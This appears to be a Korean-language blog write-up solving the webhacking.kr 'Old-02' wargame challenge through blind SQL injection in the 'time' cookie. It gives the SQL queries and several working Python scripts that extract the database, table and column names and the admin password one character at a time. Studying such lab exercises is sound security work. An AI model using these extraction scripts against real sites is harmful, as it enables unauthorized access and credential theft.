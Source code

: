 ```yaml
---
title: WEB-Old-02
date: 2021-03-01 11:35:15 +09:00
categories: [Study, Webhacking.kr]
tags: [wargame, web]     # TAG names should always be lowercase
math: true
mermaid: true
published : false
---
```


## Old-02
### Source code
```html
<!—
2021-03-01 06:43:16
—>
<h2>Restricted area</h2>Hello stranger. Your IP is logging...<!-- if you access admin.php i will kick your ass -→
```
https://webhacking.kr/challenge/web-02/admin.php 링크로 들어가면 password를 찾아야 한다는 것을 확인할 수 있다.<br>
![](assets/img/_POST/WEB-Old-02/비밀번호.png)<br>
이제 비밀번호를 찾아야 함.<br>
쿠키에 time값이 있다.<br>
쿠기 time값에 1을 입력해보았더니 시간 값이 아래와 같이 변화한 것을 확인할 수 있었다.<br>
![](assets/img/_POST/WEB-Old-02/1입력.png)<br>

데이터 베이스에 pw가 있을것이기 때문에, table개수를 sql문을 이용하여 찾아낸다.
```sql
select count(table_name) from information_schema.tables where table_scheme=database()
```
![](assets/img/_POST/WEB-Old-02/테이블개수2개.png)
테이블의 이름을 찾기 위해 테이블 이름의 길이를 찾는다.
```sql
(select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)
```
![](assets/img/_POST/WEB-Old-02/테이블이름길이_1.png)
첫 번째 테이블의 이름은 13글자이다.
```sql
(select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)
```
![](assets/img/_POST/WEB-Old-02/테이블이름길이_2.png)
두 번째 테이블의 이름은 3글자이다.

```sql
(select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema=database() limit 1,1)
```
```sql
(select ascii(substr(table_name,2,1)) from information_schema.tables where table_schema=database() limit 1,1)
```
```sql
(select ascii(substr(table_name,3,1)) from information_schema.tables where table_schema=database() limit 1,1)
```
![](assets/img/_POST/WEB-Old-02/테이블이름_2_1번째_108.png)
![](assets/img/_POST/WEB-Old-02/테이블이름_2_2번째_111.png)
![](assets/img/_POST/WEB-Old-02/테이블이름_2_3번째_103.png)

두 번째 테이블 이름은 **log**이다.<br>
첫 번째 테이블 이름은 너무 길어서 이 방법으로 하면 시간이 너무 오래 걸린다.<br>
따라서 코드를 작성하여 테이블의 이름을 구하고자 한다. 테이블 이름을 구하기에 앞서 먼저 database의 이름을 알아내서 편하게 테이블이름을 찾아보도록한다.<br>

```php
import requests

url = 'https://webhacking.kr/challenge/web-02/'
db = ''
bye = 0

for i in range(1,50):
    if bye == 1:
        break
    for j in range(33,133):
        c = {"cookie":"PHPSESSID=나의 세션ID; time=0||if(ord(substr((select database()),{},1))={},1,0)".format(i,j)}
        
        res = requests.get(url, cookies=c)
				# 응답 패킷을 res에 저장한다.
        #print("i : {}, j : {}".format(i, j))
        if res.text.find("09:00:01") != -1:
            db += chr(j)
            print(db)
            break
            # 문자열을 찾지 못하면 -1을 반환
            # 참이면, 09:00:01로 1초를 반환하고 false일시 0초를 반환한다.
        if j == 132:
            # 마지막까지 갔다는 것은 db이름 끝까지 구해졌다는 의미이다.
            bye=1
            break
print("database : {}".format(db))
```
![](assets/img/_POST/WEB-Old-02/데이터베이스이름_chall2.png)

database이름은 chall2이다.
```python
import requests

url = "https://webhacking.kr/challenge/web-02/"
first_table=''
bye = 0

for i in range(1,14):
    if bye == 1:
        break
    for j in range(33,133):
        c = {"cookie":"PHPSESSID=나의 세션ID;time=0|| if(ord(substr((select table_name from information_schema.tables where table_schema='chall2' limit 0,1),{},1))={},1,0)".format(i,j)}
        res = requests.get(url, cookies=c)
        if res.text.find('09:00:01') != -1 :
            print(chr(j))
            first_table += chr(j)
            break
        if j == 132:
            bye = 1
            break
print("first table name : {}".format(first_table))
```
![](assets/img/_POST/WEB-Old-02/테이블이름_1.png)<br>
테이블 이름은 admin_area_pw이다.
이제, admin_area_pw 테이블에 있는 컬럼의 이름을 찾야야한다.
```python
import requests

url = "https://webhacking.kr/challenge/web-02/"
bye = 0
column_name=''

for i in range(1, 50):
    if bye == 1:
        break
    for j in range(33, 133):
        c = {"cookie":"PHPSESSID=나의 세션ID;time=0|| if(ord(substr((select column_name from information_schema.columns where table_name='admin_area_pw'),{},1))={},1,0)".format(i,j)}
        res = requests.get(url, cookies=c)
        if res.text.find("09:00:01") != -1:
            print(chr(j))
            column_name+=chr(j)
            break
        if j == 132:
            bye = 1
            break
print("column_name : {}".format(column_name))
```
![](assets/img/_POST/WEB-Old-02/테이블 컬럼이름.png)<br>
컬럼 이름을 찾았으니, 컬럼 개수를 찾아서 내용을 봐야 한다.
```sql
(select count(pw) from admin_area_pw)
```
![](assets/img/_POST/WEB-Old-02/pw컬럼개수.png)<br>
컬럼 개수가 1개 라는 것을 찾았으니 이 컬럼의 내용을 찾아서 pw을 찾아내야 한다.
```python
import requests

url = "https://webhacking.kr/challenge/web-02/"
bye = 0
pw=''

for i in range(1, 50):
    if bye == 1:
        break
    for j in range(33, 133):
        c = {"cookie":"PHPSESSID=나의 세션ID;time=0|| if(ord(substr((select pw from admin_area_pw),{},1))={},1,0)".format(i,j)}
        res = requests.get(url, cookies=c)
        if res.text.find("09:00:01") != -1:
            print(chr(j))
            pw+=chr(j)
            break
        if j == 132:
            bye = 1
            break
print("pw : {}".format(pw))
```
![](assets/img/_POST/WEB-Old-02/pw.png)<br>
끝!

<aside>
<span style="font-size:20px; font-weight:bold;">⛳ kudos_to_beistlab</span>
</aside>